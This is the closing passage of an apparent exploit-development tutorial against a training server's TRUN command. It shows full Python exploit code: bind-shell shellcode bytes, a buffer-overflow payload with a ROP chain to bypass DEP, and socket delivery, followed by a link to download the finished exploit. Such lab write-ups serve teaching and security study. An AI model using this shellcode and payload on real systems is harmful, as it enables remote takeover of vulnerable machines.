SHELL += b"\x91\xdc\x8d\xf4\x6c\xdf\xed\xdd\xaa\x8b\xbd\x75"
SHELL += b"\x1a\xb4\x55\x85\xa3\x61\xc3\x8d\x02\xda\xf6\x70"
SHELL += b"\xf4\x8a\xb6\xda\x9d\xc0\x38\x05\xbd\xea\x92\x2e"
SHELL += b"\x56\x17\x1d\x41\xfb\x9e\xfb\x0b\x13\xf7\x54\xa3"
SHELL += b"\xd1\x2c\x6d\x54\x29\x07\xc5\xf2\x62\x41\xd2\xfd"
SHELL += b"\x72\x47\x74\x69\xf9\x84\x40\x88\xfe\x80\xe0\xdd"
SHELL += b"\x69\x5e\x61\xac\x08\x5f\xa8\x46\xa8\xf2\x37\x96"
SHELL += b"\xa7\xee\xef\xc1\xe0\xc1\xf9\x87\x1c\x7b\x50\xb5"
SHELL += b"\xdc\x1d\x9b\x7d\x3b\xde\x22\x7c\xce\x5a\x01\x6e"
SHELL += b"\x16\x62\x0d\xda\xc6\x35\xdb\xb4\xa0\xef\xad\x6e"
SHELL += b"\x7b\x43\x64\xe6\xfa\xaf\xb7\x70\x03\xfa\x41\x9c"
SHELL += b"\xb2\x53\x14\xa3\x7b\x34\x90\xdc\x61\xa4\x5f\x37"
SHELL += b"\x22\xd4\x15\x15\x03\x7d\xf0\xcc\x11\xe0\x03\x3b"
SHELL += b"\x55\x1d\x80\xc9\x26\xda\x98\xb8\x23\xa6\x1e\x51"
SHELL += b"\x5e\xb7\xca\x55\xcd\xb8\xde"

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    create_rop_chain() +
    # Align stack
    b'\x83\xE4\xF0' +   # and esp, 0xfffffff0
    SHELL +
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Note that I added the `and esp, 0xfffffff0` instruction before the
shellcode to align the stack. This is commonly needed when you mess
around with the stack.

Let's check it now:

image::success.gif[Success]

Great! We successfuly disabled `DEP` for our process and got a shell!

You can download the final exploit link:exploit.py[here].

== Conclusions

In this article, we used the power of Return-Oriented Programming to
complete a working exploit with a binded `TCP` shell on a DEP-enabled OS.
As each application is different, using `ROP` gadgets to perform complex
operations is an art, because there is not a generic way to do it.
